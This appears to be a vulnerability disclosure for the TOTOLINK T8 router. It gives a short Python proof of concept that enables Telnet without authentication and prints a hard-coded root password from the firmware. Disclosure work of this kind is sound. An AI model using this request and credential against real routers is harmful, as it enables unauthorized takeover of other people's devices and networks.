







# TOTOLINK T8 TELNET

## Description

Attackers can start the Telnet service without authorization and log in to the telnet service with a hard-coded password



## Firmware information

* Manufacturer's address:https://www.totolink.net/



* Firmware download address : https://totolink.com.my/wp-content/uploads/2023/01/TOTOLINK_C8195R-1C_T8_IP04455_8197F_SPI_16M128M_V4.1.5cu.741_B20210916_ALL.zip

## Affected version

**Version: V4.1.5cu**

## Vulnerability details

Telnet is enabled by sending the following POST packet .

```
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"
data = '{"telnet_enabled":"1","topicurl":"setTelnetCfg"}'
rep = requests.post(url, data=data)
print(rep.status_code)
print(rep.content)
```

The default account password exists in the file `/web_cste/cgi-bin/product.ini`：`root:KL@UHeZ0`





In `/bin/cs`



In `bin/convertIniToCfg`



success!


